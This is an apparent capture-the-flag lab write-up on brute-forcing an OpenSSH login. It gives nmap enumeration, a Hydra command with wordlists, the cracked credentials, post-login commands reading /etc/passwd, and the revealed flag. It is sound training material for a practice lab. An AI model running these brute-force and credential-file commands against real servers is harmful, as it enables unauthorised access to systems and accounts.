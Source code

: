 # 🔬SSH

## Lab 1

>  🔬 [SSH Login](https://attackdefense.com/challengedetails?cid=1526)
>
>  - Target IP: `192.63.218.3`
>  - **Brute-force** of [OpenSSH](https://www.openssh.com/) server
>  - **Enumeration and nmap scripts** have been already covered in this [SSH Enum lab](../../../assessment-methodologies/3-enumeration/ssh-enum.md)

### Enumeration

```bash
ip -br -c a

nmap -sV 192.63.218.3
```

```bash
22/tcp open  ssh  OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
```

> 📌 OpenSSH 7.9p1 cannot be exploited directly

### Brute-Force

- Metasploit `ssh_login` module or `Hydra` tool can be utilized for brute forcing the SSH password

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.63.218.3 -t 4 ssh
```

```bash
[22][ssh] host: 192.63.218.3   login: sysadmin   password: hailey
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 273 to do in 00:04h, 4 active
[22][ssh] host: 192.63.218.3   login: rooty   password: pineapple
[...]
```

- Login to the target via SSH

```bash
ssh sysadmin@192.63.218.3
```

```bash
groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
cat /flag
```

<details>
<summary>Reveal Flag: 🚩</summary>



`eb09cc6f1cd72756da145892892fbf5a`

![](.gitbook/assets/image-20230319165718497.png)

</details>

------

